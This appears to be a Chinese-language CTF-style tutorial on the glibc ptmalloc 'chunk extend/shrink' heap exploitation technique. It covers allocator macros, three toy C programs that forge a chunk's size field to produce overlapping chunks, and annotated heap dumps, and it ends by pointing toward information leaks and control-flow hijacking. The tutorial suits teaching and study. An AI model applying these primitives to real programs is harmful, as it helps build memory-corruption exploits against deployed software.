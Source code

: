 Chunk Extend/Shrink
===================

介绍
----

chunk extend/shrink 是堆漏洞的一种常见的利用手法，与其他堆漏洞的利用相同，chunk extend/shrink 攻击同样需要有可以控制 malloc\_chunk 的漏洞。这种利用方法需要以下的先决条件：

-  程序中存在基于堆的漏洞
-  漏洞可以使得malloc\_chunk能够被攻击者控制

原理
----

extend 利用之所以能够产生在于ptmalloc(aka glibc)对于 malloc\_chunk 的各种属性的校验。

在ptmalloc中，获取本chunk块大小的操作如下

::

    /* Get size, ignoring use bits */
    #define chunksize(p) (chunksize_nomask(p) & ~(SIZE_BITS))

    /* Like chunksize, but do not mask SIZE_BITS.  */
    #define chunksize_nomask(p) ((p)->mchunk_size)

即取出 malloc\_chunk 中的 size 字段并去除标志位。

在 ptmalloc 中，获取下一 chunk 块地址的操作如下

::

    /* Ptr to next physical malloc_chunk. */
    #define next_chunk(p) ((mchunkptr)(((char *) (p)) + chunksize(p)))

即使用当前块指针加上当前块大小。

在ptmalloc中，获取前一个 chunk 信息的操作如下

::

    /* Size of the chunk below P.  Only valid if prev_inuse (P).  */
    #define prev_size(p) ((p)->mchunk_prev_size)

    /* Ptr to previous physical malloc_chunk.  Only valid if prev_inuse (P).  */
    #define prev_chunk(p) ((mchunkptr)(((char *) (p)) - prev_size(p)))

即通过malloc\_chunk->prev\_size获取前一块大小，然后使用本chunk地址减去所得大小。

在ptmalloc，判断当前chunk是否是use状态的操作如下：

::

    #define inuse(p)
        ((((mchunkptr)(((char *) (p)) + chunksize(p)))->mchunk_size) & PREV_INUSE)

即查看下一chunk的prev\_inuse域，而下一块地址又如我们前面所述是根据当前chunk的size计算得出的。

更多的操作详见\ ``堆相关数据结构``\ 一节。简而言之，extend/shrink chunk 利用就是通过对size/pre\_size域进行控制来实现的“放缩”利用。

基本示例1
---------

简单来说，该利用的效果是通过更改第一个块的大小来控制第二个块的内容。 **注意，我们的示例都是在64位的程序。如果想在32位下进行测试，可以把8字节偏移改为4字节**\ 。

::

    int main(void)
    {
        void *ptr,*ptr1;
        
        ptr=malloc(0x10);//分配第一个0x10的chunk
        malloc(0x10);//分配第二个0x10的chunk
        
        *(long long *)((long long)ptr-0x8)=0x41;//修改第一个块的size域
        
        free(ptr);
        ptr1=malloc(0x30);//实现extend，控制了第二个块的内容
        return 0;
    }

当两个malloc语句执行之后，堆的内存分布如下

::

    0x602000:   0x0000000000000000  0x0000000000000021 <=== chunk 1
    0x602010:   0x0000000000000000  0x0000000000000000
    0x602020:   0x0000000000000000  0x0000000000000021 <=== chunk 2
    0x602030:   0x0000000000000000  0x0000000000000000
    0x602040:   0x0000000000000000  0x0000000000020fc1 <=== top chunk

之后，我们把chunk1的size域更改为0x41，0x41是因为chunk的size域包含了用户控制的大小和header的大小。如上所示正好大小为0x40。在题目中这一步可以由堆溢出得到。

::

    0x602000:   0x0000000000000000  0x0000000000000041 <=== 篡改大小
    0x602010:   0x0000000000000000  0x0000000000000000
    0x602020:   0x0000000000000000  0x0000000000000021
    0x602030:   0x0000000000000000  0x0000000000000000
    0x602040:   0x0000000000000000  0x0000000000020fc1 

执行free之后，我们可以看到chunk2与chunk1合成一个0x40大小的chunk，一起释放了。

::

    Fastbins[idx=0, size=0x10] 0x00
    Fastbins[idx=1, size=0x20] 0x00
    Fastbins[idx=2, size=0x30]  ←  Chunk(addr=0x602010, size=0x40, flags=PREV_INUSE) 
    Fastbins[idx=3, size=0x40] 0x00
    Fastbins[idx=4, size=0x50] 0x00
    Fastbins[idx=5, size=0x60] 0x00
    Fastbins[idx=6, size=0x70] 0x00

之后我们通过malloc(0x30)得到chunk1+chunk2的块，此时就可以直接控制chunk2中的内容，我们也把这种状态称为overlapping chunk。

::

    call   0x400450 <malloc@plt>
    mov    QWORD PTR [rbp-0x8], rax

    rax = 0x602010

基本示例2
---------

通过之前深入理解堆的实现部分的内容，我们得知处于 fastbin 范围的 chunk 释放后会被置入 fastbin 链表中，而不处于这个范围的chunk被释放后会被置于unsorted bin链表中。
以下这个示例中，我们使用0x80这个大小来分配堆（作为对比fastbin的范围是0x70）

::

    int main()
    {
        void *ptr,*ptr1;
        
        ptr=malloc(0x80);//分配第一个0x80的chunk1
        malloc(0x10);//分配第二个0x10的chunk2
        malloc(0x10);//防止与top chunk合并
        
        *(int *)((int)ptr-0x8)=0xb1;
        free(ptr);
        ptr1=malloc(0xa0);
    }

在这个例子中，因为分配的size不处于fastbin的范围，因此在释放时如果与top chunk相连会导致和top chunk合并。所以我们需要额外分配一个chunk，把释放的块与top chunk隔开。

::

    0x602000:   0x0000000000000000  0x00000000000000b1 <===chunk1 篡改size域
    0x602010:   0x0000000000000000  0x0000000000000000
    0x602020:   0x0000000000000000  0x0000000000000000
    0x602030:   0x0000000000000000  0x0000000000000000
    0x602040:   0x0000000000000000  0x0000000000000000
    0x602050:   0x0000000000000000  0x0000000000000000
    0x602060:   0x0000000000000000  0x0000000000000000
    0x602070:   0x0000000000000000  0x0000000000000000
    0x602080:   0x0000000000000000  0x0000000000000000
    0x602090:   0x0000000000000000  0x0000000000000021 <=== chunk2
    0x6020a0:   0x0000000000000000  0x0000000000000000
    0x6020b0:   0x0000000000000000  0x0000000000000021 <=== 防止合并的chunk
    0x6020c0:   0x0000000000000000  0x0000000000000000
    0x6020d0:   0x0000000000000000  0x0000000000020f31 <=== top chunk

释放后，chunk1把chunk2的内容吞并掉并一起置入unsorted bin

::

    0x602000:   0x0000000000000000  0x00000000000000b1 <=== 被放入unsorted bin
    0x602010:   0x00007ffff7dd1b78  0x00007ffff7dd1b78
    0x602020:   0x0000000000000000  0x0000000000000000
    0x602030:   0x0000000000000000  0x0000000000000000
    0x602040:   0x0000000000000000  0x0000000000000000
    0x602050:   0x0000000000000000  0x0000000000000000
    0x602060:   0x0000000000000000  0x0000000000000000
    0x602070:   0x0000000000000000  0x0000000000000000
    0x602080:   0x0000000000000000  0x0000000000000000
    0x602090:   0x0000000000000000  0x0000000000000021
    0x6020a0:   0x0000000000000000  0x0000000000000000
    0x6020b0:   0x00000000000000b0  0x0000000000000020 <=== 注意此处标记为空
    0x6020c0:   0x0000000000000000  0x0000000000000000
    0x6020d0:   0x0000000000000000  0x0000000000020f31 <=== top chunk

::

    [+] unsorted_bins[0]: fw=0x602000, bk=0x602000
     →   Chunk(addr=0x602010, size=0xb0, flags=PREV_INUSE)

再次进行分配的时候就会取回chunk1和chunk2的空间，此时我们就可以控制chunk2中的内容

::

         0x4005b0 <main+74>        call   0x400450 <malloc@plt>
     →   0x4005b5 <main+79>        mov    QWORD PTR [rbp-0x8], rax
     
         rax : 0x0000000000602010

基本示例3
---------

示例3是在示例2的基础上进行的，这次我们先释放chunk1，然后再修改处于unsorted bin中的chunk1的size域。

::

    int main()
    {
        void *ptr,*ptr1;
        
        ptr=malloc(0x80);//分配第一个0x80的chunk1
        malloc(0x10);//分配第二个0x10的chunk2
        
        free(ptr);//首先进行释放，使得chunk1进入unsorted bin
        
        *(int *)((int)ptr-0x8)=0xb1;
        ptr1=malloc(0xa0);
    }

两次malloc之后的结果如下

::

    0x602000:   0x0000000000000000  0x0000000000000091 <=== chunk 1
    0x602010:   0x0000000000000000  0x0000000000000000
    0x602020:   0x0000000000000000  0x0000000000000000
    0x602030:   0x0000000000000000  0x0000000000000000
    0x602040:   0x0000000000000000  0x0000000000000000
    0x602050:   0x0000000000000000  0x0000000000000000
    0x602060:   0x0000000000000000  0x0000000000000000
    0x602070:   0x0000000000000000  0x0000000000000000
    0x602080:   0x0000000000000000  0x0000000000000000
    0x602090:   0x0000000000000000  0x0000000000000021 <=== chunk 2
    0x6020a0:   0x0000000000000000  0x0000000000000000
    0x6020b0:   0x0000000000000000  0x0000000000020f51

我们首先释放chunk1使它进入unsorted bin中

::

         unsorted_bins[0]: fw=0x602000, bk=0x602000
     →   Chunk(addr=0x602010, size=0x90, flags=PREV_INUSE)

    0x602000:   0x0000000000000000  0x0000000000000091 <=== 进入unsorted bin
    0x602010:   0x00007ffff7dd1b78  0x00007ffff7dd1b78
    0x602020:   0x0000000000000000  0x0000000000000000
    0x602030:   0x0000000000000000  0x0000000000000000
    0x602040:   0x0000000000000000  0x0000000000000000
    0x602050:   0x0000000000000000  0x0000000000000000
    0x602060:   0x0000000000000000  0x0000000000000000
    0x602070:   0x0000000000000000  0x0000000000000000
    0x602080:   0x0000000000000000  0x0000000000000000
    0x602090:   0x0000000000000090  0x0000000000000020 <=== chunk 2
    0x6020a0:   0x0000000000000000  0x0000000000000000
    0x6020b0:   0x0000000000000000  0x0000000000020f51 <=== top chunk

然后篡改chunk1的size域

::

    0x602000:   0x0000000000000000  0x00000000000000b1 <=== size域被篡改
    0x602010:   0x00007ffff7dd1b78  0x00007ffff7dd1b78
    0x602020:   0x0000000000000000  0x0000000000000000
    0x602030:   0x0000000000000000  0x0000000000000000
    0x602040:   0x0000000000000000  0x0000000000000000
    0x602050:   0x0000000000000000  0x0000000000000000
    0x602060:   0x0000000000000000  0x0000000000000000
    0x602070:   0x0000000000000000  0x0000000000000000
    0x602080:   0x0000000000000000  0x0000000000000000
    0x602090:   0x0000000000000090  0x0000000000000020
    0x6020a0:   0x0000000000000000  0x0000000000000000
    0x6020b0:   0x0000000000000000  0x0000000000020f51

此时再进行malloc分配就可以得到chunk1+chunk2的堆块，从而控制了chunk2的内容。

extend chunk可以做什么
----------------------

一般来说 extend chunk并不能直接控制程序的执行流程。但是因为 extend chunk 可以导致 chunk overlapping，所以我们可以完整的控制这个堆块 chunk 中的内容。如果 chunk
存在字符串指针、函数指针等，就可以利用这些指针来进行信息泄漏和控制执行流程。如果不存在类似的域也可以通过控制 chunk header 中的数据来实现 fastbin attack 等利用。
